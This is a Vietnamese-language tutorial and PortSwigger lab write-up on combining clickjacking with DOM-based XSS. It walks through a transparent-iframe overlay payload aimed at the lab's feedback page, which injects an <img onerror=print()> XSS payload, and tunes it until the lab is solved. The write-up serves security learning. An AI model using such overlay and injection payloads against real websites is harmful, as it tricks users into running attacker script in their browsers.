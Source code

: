 # Combining clickjacking with a DOM XSS attack

**Kết hợp clickjacking với tấn công DOM XSS** là một chiến thuật nguy hiểm khi sử dụng clickjacking như một phương tiện để triển khai một cuộc tấn công DOM XSS (Cross-Site Scripting). Dưới đây là cách hoạt động của kỹ thuật này:

**Cách kết hợp clickjacking và DOM XSS**

1. **Clickjacking độc lập**:

- Trong các tấn công clickjacking thông thường, kẻ tấn công lợi dụng iframe để làm người dùng vô tình thực hiện các hành động như nhấn "like" trên Facebook hoặc kích hoạt một chức năng cụ thể trên trang mục tiêu.

2. **Tấn công DOM XSS**:

- DOM XSS là loại tấn công lợi dụng lỗ hổng trong mã JavaScript phía client của trang web.

- Kẻ tấn công chèn payload XSS vào URL hoặc các tham số đầu vào, sau đó payload này được thực thi trên trình duyệt của nạn nhân.

3. **Kết hợp 2 kỹ thuật**:

- Kẻ tấn công trước tiên xác định lỗ hổng DOM XSS trên trang mục tiêu.

- Sau đó, chúng kết hợp URL chứa payload XSS với clickjacking bằng cách nhúng URL này vào iframe.

- Người dùng bị lừa nhấp vào nút hoặc liên kết trong giao diện giả mạo (decoy), dẫn đến việc kích hoạt tấn công DOM XSS.

**Cách hoạt động cụ thể**

- **Bước 1**: Kẻ tấn công xác định URL mục tiêu có chứa lỗ hổng DOM XSS, ví dụ:

    *https://target-website.com/page?input=<script>alert('XSS')</script>*

- **Bước 2**: Chèn URL này vào iframe trong trang clickjacking:

        <iframe id="target" src="https://target-website.com/page?input=<script>alert('XSS')</script>" style="opacity: 0; position: absolute;"></iframe>
    
- **Bước 3**: Tạo giao diện giả mạo để dụ người dùng click chuột, căn chỉnh nút hoặc liên kết của iframe sao cho hành động click chuột của người dùng kích hoạt payload DOM XSS.

**Ứng dụng thực tế**

- **Tăng độ nguy hiểm của tấn công DOM XSS:**

    - DOM XSS vốn chỉ hoạt động khi nạn nhân tương tác với URL chứa payload.

    - Bằng cách sử dụng clickjacking, kẻ tấn công có thể dễ dàng lừa nạn nhân thực thi payload mà không cần sự nhận thức của họ.

- **Làm tăng khả năng khai thác các hành động phức tạp:**

    - Clickjacking giúp kết hợp DOM XSS với các thao tác khác, như đăng nhập, gửi dữ liệu, hoặc điều khiển giao diện web.

**Tóm lại**:

Sự kết hợp giữa clickjacking và DOM XSS biến một cuộc tấn công XSS vốn đã nguy hiểm thành một phương thức tấn công mạnh mẽ hơn, lừa người dùng thực thi mã độc mà không hay biết. Tấn công này khai thác iframe để làm phương tiện che giấu, kết hợp URL payload XSS để triển khai tấn công vào trình duyệt của nạn nhân.

# Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS
![img](19)

### Web page
![img](20)

### Solution

Xem thử chức năng Submit feedback: 

![img](21)

--> CÓ thể lợi dung page /feedback để chèn payload kết hợp clickjacking và DOM XSS.

SỬ dụng payload có dạng sau: 

    <style>
        iframe {
            position:relative;
            width:$width_value;
            height: $height_value;
            opacity: $opacity;
            z-index: 2;
        }
        div {
            position:absolute;
            top:$top_value;
            left:$side_value;
            z-index: 1;
        }
    </style>
    <div>Test me</div>
    <iframe
    src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>

Trong payload này, thẻ iframe, có thuộc tính src chứa URL mục tiêu bao gồm lỗ hổng DOM XSS. Cụ thể, payload DOM XSS được nhúng vào name param. 
        
    name=<img src=1 onerror=print()>

Khi user click, script này được kích hoạt để thực thi mã JS (trong TH này là hàm print()).

Các param khác như email, subject, message không quan trọng, chỉ dùng để lừa user tin rằng họ đang tương tác với 1 trang hợp lệ. 

Chỉnh sửa lại payload thành: 

    <style>
        iframe {
            position:relative;
            width:700px;
            height: 500px;
            opacity: 0.1;
            z-index: 2;
        }
        div {
            position:absolute;
            top:420px;
            left:80px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe
    src="https://0a9600c8047c47f4e388bb8200a200db.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>

Go to exploit server và copy payload vào phần body: 

![img](22)

Store và View exploit: 

![img](23)

Thay đổi lại giá trị opacity thành 0.0001, email và Click Deliver exploit to victim.

Solved the lab!

![img](24)

